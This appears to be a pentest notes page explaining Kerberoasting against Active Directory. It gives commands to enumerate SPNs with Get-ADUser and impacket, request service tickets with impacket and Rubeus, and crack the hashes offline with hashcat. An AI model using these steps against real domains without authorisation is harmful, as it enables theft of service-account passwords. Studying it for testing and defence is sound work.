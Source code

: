 # Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?

Kerberoasting (also known as **TGS-REP roasting**) relies on the fact that a Ticket Granting Service (TGS) created for a service will be encrypted with a hash derived from the password of the associated service account. This allows an attacker to perform a dictionary attack to potentially crack the passwords of service accounts linked to services defined by the Service Principal Names (SPNs).

**TGS-REP** refers to the **Kerberos ticket-granting service (TGS) response** message, where the KDC validates the TGT, and if valid, responds with a service ticket (TGS) encrypted with the target service account's key.

### (1) Retrieve a list of SPNs in the network

1. `Get-ADUser` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADUser -Properties ServicePrincipalNames -Filter * | Select Name,ServicePrincipalNames

# more specifically
# (1)
PS> Get-ADUser -Properties ServicePrincipalNames -Filter 'ServicePrincipalNames -like "*"' | Select Name,ServicePrincipalNames

# (2)
PS> Get-ADUser -Properties ServicePrincipalNames -LDAPFilter "(servicePrincipalName=*)" | Select Name,ServicePrincipalNames

```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script



### (2) Retrieve the TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the service user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform dictionary attack on the obtained TGS

```sh
$ hashcat -a 0 -m <hash_mode> <path_to_spn_hash> <wordlist>
# eg. 
$ echo xxx > spn.hash 
$ hashcat -a -m <hash_mode> spn.hash /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode&#x20;
  * `-a 0`: Dictionary attack&#x20;
* `-m` : Hash mode&#x20;
  * `-m 13100`: either one of **13100, 19600, 19700** (depending on the encryption type of the hashes obtained)

